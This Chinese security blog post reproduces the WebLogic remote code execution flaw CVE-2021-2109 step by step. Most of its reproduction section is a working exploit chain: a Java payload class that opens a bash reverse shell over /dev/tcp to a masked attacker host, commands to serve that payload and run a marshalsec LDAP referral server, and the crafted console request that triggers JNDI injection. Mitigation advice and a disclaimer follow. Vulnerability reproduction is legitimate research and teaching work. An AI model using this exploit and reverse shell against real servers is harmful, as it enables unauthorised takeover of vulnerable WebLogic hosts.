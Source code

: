 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nTfnRlAbAa7WjLsCBRx30g)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeibibIJvqKW4nkKv5xCWqHhIjOnOn2wogzjuUVTGFfszFyxBB1asTYiaAp70PuC1sqeBDIS29MBooZA/640?wx_fmt=jpeg)

  
CVE-2021-2109 Weblogic 远程代码执行

一、漏洞简介  

Oracle 官方发布了漏洞补丁，修了包括 CVE-2021-2109 Weblogic Server 远程代码执行漏洞在内的多个高危严重漏洞。CVE-2021-2109 中，攻击者可构造恶意请求，造成 JNDI 注入，执行任意代码，从而控制服务器。

二、影响版本

WebLogic 10.3.6.0.0

WebLogic 12.1.3.0.0

WebLogic 12.2.1.3.0

WebLogic 12.2.1.4.0

WebLogic 14.1.1.0.0

三、漏洞复现

环境准备：WebLogic 10.3.6.0.0（win）

登陆后台：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdut5vVxj12TwJRas5ibek7icVZiaSGMPIk1IWoxdGKwvRztOcYkpybE3vpWwt2cwy3ibYarv9hPJE8fQ/640?wx_fmt=png)

http://192.168.1.111:7001/console/login/LoginForm.jsp  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdut5vVxj12TwJRas5ibek7ictFfUMuU55ibUjR6rwKfQyVkmZoDystDbAwGhtDJdbDYlKIgyMoB2CyQ/640?wx_fmt=png)

启动 Ldap 服务：  

具体方法参考以前的 fastjson 方式：

[Fastjson1.2.47 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzIyNjk0ODYxMA==&mid=2247484025&idx=1&sn=10e26bbfd67f82b4c457601699d1f8eb&chksm=e869e114df1e6802491b516b03121304b35565bffe8ed8242214743b842897bd3e84673ba1e6&scene=21#wechat_redirect)  

具体地址：https://mp.weixin.qq.com/s/69NCDDSaa07YY7DwyC9fgA

将下面 exp 保存为 Exploit.java 文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        //Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/XXXXXX/34567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

```
javac Exploit.java  编译生成Exploit.class文件
```

python 启动 web 服务

```
python -m SimpleHTTPServer  1111
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVs2yfMaKSyVFPI9DcnafoSPTwPicXDLXbUAicQjial0fTTbBEENOw9k4FQ/640?wx_fmt=png)

通过 python 启动 exphttp 服务启动 ldap 服务 (RMI 服务)

本次复现使用 ldap 服务，同时也将 RMI 对应的操作也做了截图整理，主要是的原因的 RMI 的 JDk 版本支持，LDAPJava 的版本本环境的支持（注意 JDK 的版本，这个是可能成功与否的关键）。

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://XX.XX.XX.XX:1111/\#Exploit 999
```

ldap 抓包访问修改数据包

```
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;100:389/exp;AdminServer%22) HTTP/1.1
Host: 192.168.1.111:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.111:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=UXojCN1Oo-FkguAuuU35Z6tZ2-zmMUTskIjOizb35HOEcL6AwZCl!-2080081994; JSESSIONID=sKsgWcOgre9zQdntt3QYv14IleXkZ94jW9vYYt4fEIOdNBaQtBeV!-1871779164
Upgrade-Insecure-Requests: 1
```

POC:

```
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;100:389/exp;AdminServer%22) HTTP/1.1
```

执行成功效果  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdut5vVxj12TwJRas5ibek7icO98gYH6ELxM8DsnfXeAB2CbRPH3aoFxmIgUZKHribaBttG7WCYBWRWQ/640?wx_fmt=png)

具体的演示 demo 视频：  

四、安全建议

1、禁用 T3 协议

如果您不依赖 T3 协议进行 JVM 通信，可通过暂时阻断 T3 协议缓解此漏洞带来的影响

1). 进入 Weblogic 控制台，在 base_domain 配置页面中，进入 “安全” 选项卡页面，点击“筛选器”，配置筛选器。

2). 在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，在连接筛选器规则框中输入：* * 7001 deny t3 t3s。

2、禁止启用 IIOP

登陆 Weblogic 控制台，找到启用 IIOP 选项，取消勾选，重启生效

3、临时关闭后台 / console/console.portal 对外访问

4、升级官方安全补丁

参考：

https://xz.aliyun.com/t/9049

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)